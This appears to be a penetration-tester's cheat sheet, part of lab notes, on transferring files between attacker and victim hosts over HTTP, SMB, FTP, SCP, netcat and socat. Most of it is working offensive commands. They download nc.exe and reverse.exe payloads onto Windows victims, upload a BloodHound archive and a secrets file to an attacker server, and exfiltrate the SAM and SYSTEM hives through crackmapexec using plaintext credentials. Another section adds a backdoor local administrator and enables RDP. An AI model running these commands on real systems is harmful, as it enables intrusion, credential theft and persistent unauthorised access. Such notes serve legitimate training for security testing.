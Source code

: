 # Transfer Files

<details>

<summary>Linux</summary>

```bash
python -m SimpleHTTPServer 53
```

```bash
python3 -m http.server 8023
```

```bash
wget -O <filename> <website_name>
```

```bash
curl -o <filename> <website_name>
```

```bash
axel -a -n 20 -o <filename> <website_name>
```

</details>

<details>

<summary>Windows</summary>

```shell
curl.exe http://10.11.67.208:8000/output.dll --output output.dll
```

```bash
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
```

```sh
powershell -c cd C:\windows\temp; wget http://10.10.14.68/nc64.exe -outfile nc64.exe
```

```powershell
(new-object net.webclient).downloadfile('http://10.10.14.2/nc.exe', 'c:\temp\nc.exe')
```

```
bitsadmin /Transfer myJob http://192.168.61.128/README.md c:\Users\testing\README.md
```

```bash
certutil.exe -urlcache -f http://10.10.14.68/nc.exe C:\Windows\Temp\nc.exe
```

</details>

<details>

<summary>Upload files to HTTP Server</summary>

[https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

Attacker's upload server:

```bash
python3 SimpleHTTPServerWithUpload.py 80
```

#### GUI to upload file:

* Go to `<Attacker's IP>`

![](<../.gitbook/assets/image (121).png>)

#### Windows victim uploading file using PS:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'c:\temp\20230425015352_BloodHound.zip')
```

#### Windows victim uploading file using CMD:

* double backslashes are impt!!
* Windows 10 and Server 2019 has curl.exe built-in at `c:\windows\system32\curl.exe`

```bash
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

#### Linux victim uploading file:

```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

```
requests.post(<path-on-server-side>, files={'file': open(output_file, 'rb')})
```

</details>

<details>

<summary>SMB</summary>

On attacker:

```bash
impacket-smbserver share . -smb2support
```

* may not need to use `-smb2support` switch for older versions of Windows

On victim:

```shell
copy \\10.10.14.68\share\reverse.exe .
```

OR...

```bash
net use \\10.10.14.68\share /u:d d
cd \\10.10.14.15\share
.\winpeas.bat
```

</details>

<details>

<summary>FTP</summary>

```bash
python2.7 -m pyftpdlib -p 21 --write
```

### Non-Interactive File Transfer

* Have to craft the txt file on the victim as Linux and Win uses diff encoding for txt files.

#### CMD:

```bash
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo PUT nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp.exe -v -n -s:ftp.txt
```

#### PS:

* Doesn't like the `>` or `<` characters

```bash
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append

ftp.exe -v -n -s:ftp.txt
```

</details>

<details>

<summary>SCP</summary>

From attacker to victim, run command on attacker:

```bash
scp -P 2222 printname.sh student@192.168.161.52:/tmp
```

From victim to attacker, run command on attacker:

```bash
scp root@linuxvictim:/tmp/krb5cc_607000500_ZX6A9Z .
```

```bash
scp -P 2222 -o "UserKnownHostsFile=/dev/null" student@192.168.145.52:/home/student/navigating-code.exe /tmp/navigating-code.exe
```

</details>

<details>

<summary>Netcat</summary>

On Victim:

```bash
nc -nlvp 4444 > wget.exe
```

On Attacker:

```bash
nc -nv 10.11.0.22 4444 < /home/kali/Downloads/wget.exe
```

</details>

<details>

<summary>Python3 uploadserver library</summary>

On Attacker:

```python
python3 -m uploadserver 80
```

Can install using `python3 -m pip install --user uploadserver`

On Victim:

```bash
curl -X POST http://192.168.45.201:80/upload -F 'files=@/usr/bin/sg'
```

</details>

<details>

<summary>Socat</summary>

Transferring files from attacker to victim

On Attacker:

```bash
socat TCP4-LISTEN:80,fork file:rev.php       
```

On Victim:

```bash
socat TCP4:192.168.45.213:80 file:rev.php,create
```

</details>

<details>

<summary>Transfer files to unreachable hosts</summary>

* Able to reach MS01 but not MS02 despite chisel in place
* MS02 able to reach MS01 via internal IP

#### Use existing HTTP server on MS01 to transfer files

```bash
ftp <ms01's external IP>
# ftp> cd wwwroot
# ftp> bin
# ftp> put reverse.exe
# local: reverse.exe remote: reverse.exe
# 229 Entering Extended Passive Mode (|||50472|)
# 125 Data connection already open; Transfer starting.
# 100% |**********************************************************************|  7168       23.57 MiB/s    00:00 ETA
# 226 Transfer complete.
# 7168 bytes sent in 00:00 (38.06 KiB/s)

# Use Curl to download the reverse shell from MS01 web server.
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "curl http://<ms01 Internal IP>:8000/reverse.exe --output c:\temp\reverse.exe"

```

### OR&#x20;

#### Setup Rejetto HFS server (HTTP file server)

```bash
wget https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip
```

#### Create new local admin named bill & Enable RDP on MS01

```bash
c:\temp> net user bill P@ssw0rd /add
c:\temp> net localgroup administrators bill /add
c:\temp> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Run the HFS server

* Use GUI to unzip --> Double-click hfs executable to serve HTTP server
* Go to [http://localhost/\~/admin/#/](http://localhost/~/admin/#/) --> hamburger icon --> shared files --> add files in virtual file system --> save

#### Download files from MS01 HFS server to MS02

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe"
```

#### Upload files from MS02 to MS01

* Inside HFS admin console ([http://localhost/\~/admin/#/fs](http://localhost/~/admin/#/fs))
  * Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
  * Select "Who can upload" as anyone

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SAM' http://10.10.105.147"
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147"
```

* Note it's capital X, meaning that it's a Powershell command

</details>
